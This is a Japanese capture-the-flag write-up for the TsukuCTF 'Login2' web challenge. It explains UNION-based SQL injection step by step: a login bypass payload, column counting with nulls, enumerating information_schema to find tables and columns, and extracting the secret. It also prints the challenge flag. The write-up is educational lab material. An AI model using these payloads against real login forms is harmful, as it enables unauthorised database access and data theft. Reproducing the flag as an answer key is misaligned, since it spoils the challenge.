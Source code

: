 ```yaml
---
title: Login2
description: union select  によるSQLi
author: rikuta0811_dash
genre: Web
solver: 21
point: 323
---
```


# Login 2

> 筑紫君が自分の会員制サイトを修正したんだって。でもどうやら何が問題だったのかわかっていないみたいですよ?
>
> https://tsukuctf.sechack365.com/problems/login2
>
> ※ この問題では/problems/login2 以下のみを用います。 他の問題/problems/<name>などと混同しないよう注意してください。

Login 1 ~ 3 がセットで SQL injection の問題になっています。
Login2 では、SQL injection が可能な場所を見つけた後に、適切な Injection によりデーターベース内の情報を探索することで flag を得ることができます。

まず Username に`' or 1=1 ; --`を指定すると、図のようなログイン画面が表示されます。

![login2](./login2.png)

どうやらここに SQLi ができそうです。
`UNION SELECT` で情報を抜くために、まず SELECT 文のカラム数を特定します。
Username として `' union select null ; -- `, `' union select null, null ; -- `, `' union select null, null, null ; -- ` ...と null の数を増やしていくと、null が 2 個のときにログインに成功します。
これにて攻撃の準備は完了です。ここからは、データベース内を探索していきます。

MySQL 内のデータに関する情報は、`information_schema.columns`というテーブルに収納されています。まずは、ここの`table_name`というカラムを見るのが定石です。ということで、Username に

```txt
' UNION SELECT table_name, null FROM information_schema.columns; --
```

を入力してログインすると、`super_secret_table`というテーブルがあることがわかります。多分 flag はここでしょう。
次に、カラム名を知るために、Username を

```txt
' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name = 'super_secret_table'; --
```

としてログインします。すると、id と secret というカラムがあることがわかります。
最後に、

```txt
' UNION SELECT secret, null FROM super_secret_table; --
```

とすれば flag がゲットできます。

```txt
TsukuCTF{50_muCh_GR3AT_Hacker_!ND3ED}
```
